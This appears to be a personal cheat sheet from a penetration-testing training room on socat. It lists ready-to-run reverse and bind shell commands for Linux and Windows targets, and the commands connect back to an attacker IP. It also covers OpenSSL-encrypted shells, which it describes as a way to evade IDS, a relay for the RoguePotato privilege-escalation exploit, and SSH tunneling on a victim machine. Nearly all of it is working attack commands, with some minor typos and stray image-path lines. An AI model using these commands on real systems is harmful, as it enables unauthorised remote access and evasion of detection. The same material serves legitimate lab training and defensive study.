


Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points
Reverse Shell:
(Attacker Side)
socat TCP-L:<Port> -
As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to nc -lvnp <port>.
(Target Side)
(Windows:)
socat TCP:<Attacker-IP>:<Attacker-PORT> EXEC:powershell.exe,pipes
socat TCP:<Attacker-IP>:<Attacker-PORT> EXEC:cmd.exe,pipes
(Linux:)
socat TCP:<Attacker-IP>:<Attacker-PORT> EXEC:"bash -li"
Note: (Windows Target) The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.
Bind Shell:
(Attacker Side)
socat TCP:<TARGET-IP>:<TARGET-PORT> -
(Target Side)
(Windows:)
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
socat TCP-L:<PORT> EXEC:cmd.exe,pipes
(Linux:)
socat TCP-L:<PORT> EXEC:"bash -li"
Stablization of shell in Socat (Linux Specific Only): [tty technique]
Reverse Shell:
(Attacker Side)
socat TCP-L:<Port> FILE:`tty`,raw,echo=0 [No spaces after comma]
(Target Side)
socat TCP:<Attacker-IP>:<Attacker-PORT> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
Note: If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding -d -d into the command. This is very useful for experimental purposes, but is not usually necessary for general use.
Changing Terminal Size, mainly used for text editors such as Vim or Nano to run properly:
In our own terminal run,
cd /tmp; stty -a
Get the values of “rows” & “columns”
Then in our target machine shell run,
stty rows <number>
stty cols <number>
Socat Encrypted Shells (To avoid anyone spying and evasion from IDS)
First Generate the key and certificate. Combine them into a .pem file.
Keep one copy with attacker & send one copy to target machine.
Use the following syntax
.PEM generation:
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
Reverse Shell: (Linux Example)
(Attacker Side)
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
eg (With shell stablization - tty technique)
socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0 FILE:`tty',raw,echo=0
(Target Side)
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"bash -li"
eg (With shell stablization - tty technique)
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
Bind Shell: (Windows Example)
(Attacker Side)
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
(Target Side)
socat OPENSSL-LISTEN:<LOCAL-PORT>,cert=shell.pem,verify=0 EXEC:powershell.exe,pipes
socat OPENSSL-LISTEN:<LOCAL-PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
Bind Shell Used for Rouge Potato Exploit
(Create a Mallicious Server for the victim to connect to)
socat tcp-listen:135,reuseaddr,fork tcp:10.10.175.222:9999
Socat Tunneling
Here we will use Socat to Tunnel the localhost:22 to a different selected unsed port on the machine say 9090.
Once the Tunnel is successful, attacker can connect to port 9090 --→ which will be tunneled to localhost:22.
Thus access the SSH server on port 9090.
On Victim Machine Run:
socat tcp-listen:9090,reuseaddr,fork tcp:localhost:22
eg.

Verify with Nmap whether tunneling was successful.
eg.
